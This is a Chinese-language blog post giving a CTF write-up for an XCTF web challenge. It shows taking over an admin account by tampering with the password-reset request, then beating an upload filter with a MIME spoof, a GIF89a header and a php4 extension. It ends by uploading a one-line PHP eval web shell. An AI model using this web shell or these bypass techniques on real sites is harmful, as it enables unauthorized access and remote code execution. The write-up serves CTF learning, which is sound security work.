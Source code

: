 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      bug     # 标题 
subtitle:    攻防世界  #副标题
date:       2020-07-30        # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
--- 
```


打开环境，让登录。同时还有注册和找回密码功能。

![anGWy6.png](https://s1.ax1x.com/2020/07/30/anGWy6.png)

目录扫描没啥结果。。。

开始常规做题。

在登陆处测试一下，

使用`admin`会弹窗回显第一种，说明admin用户是存在的。

	Login failure，Someting Wrong！

	User does not exist

万能密码无果，爆破也无果。

有个找回密码试试。无果·

![ant8oD.png](https://s1.ax1x.com/2020/07/30/ant8oD.png)

常规注册登录。

登录之后，有一个地方不让查看。

	Sorry，You are not admin！

显然权限不够。

但是这里有个修改密码，会不会存在二次注入。

![anNl1s.png](https://s1.ax1x.com/2020/07/30/anNl1s.png)

重新去注册个账号

![anNj3j.png](https://s1.ax1x.com/2020/07/30/anNj3j.png)

登陆成功

![anUiUU.png](https://s1.ax1x.com/2020/07/30/anUiUU.png)

然后去修改密码，并没有成功。

剩下找回密码功能没用了，去尝试一下。

输入相关信息后

![anUfaT.png](https://s1.ax1x.com/2020/07/30/anUfaT.png)

修改密码的时候抓包

![andVn1.png](https://s1.ax1x.com/2020/07/30/andVn1.png)

将username修改为admin,

![andl1H.png](https://s1.ax1x.com/2020/07/30/andl1H.png)

返回登录，成功登录admin账户。

那么就可以去访问之前权限不够访问不了的那个页面了。

![andR4U.png](https://s1.ax1x.com/2020/07/30/andR4U.png)

并没有flag出现，但是发现

	 index.php?module=filemanage&do=???

访问，提示动作不正确，那应该是???的问题。

![andbE6.png](https://s1.ax1x.com/2020/07/30/andbE6.png)

观察以下类似 url

	/index.php?module=index&do=newpwd

更新密码处是`newpd`,

那么提示中的`filemanage`对应的 do 又是什么呢？

文件管理，那就应该和上传文件相关，猜一手`edit,dir,list,upload,delete`等等。

upload 成功访问。让上传文件，

![anwsRe.png](https://s1.ax1x.com/2020/07/30/anwsRe.png)

那我们肯定应该是想着准备上传马了。

上传其他的它提示`It is not a Image`

上传图片他又提示`Something shows it is a php!`

上传php 它提示 `It is a php!`

抓包尝试把。

这里尝试乱写一通后缀，上传不成功，断定应该是白名单。

同时上传图片后缀她又能检测不是图片。

![an0z7t.png](https://s1.ax1x.com/2020/07/30/an0z7t.png)

修改MIME类型。

	Content-Type: image/gif

提示

	Something shows it is a php!

看来他还检测了文件内容，gif 头标志`GIF89a`,加上还没通过检测。

尝试`<?php`会检测到为php.

把他删掉，但是又提示

	You know what I want！

看来必须得满足他的某个要求。他这里应该是文件后缀做了检测。陆续改为`php，php1, php2 , php3, php4, php5, phtml`

改为php4是提示又变了说明绕过了这层检测。

	It is not a really php file

文件检查了，`<?php` 被过滤了，那我们就用别的代替。

	<script Language='php'>
	eval($_POST[a]);
	</script>

成功弹出flag.

![anDmKH.png](https://s1.ax1x.com/2020/07/30/anDmKH.png)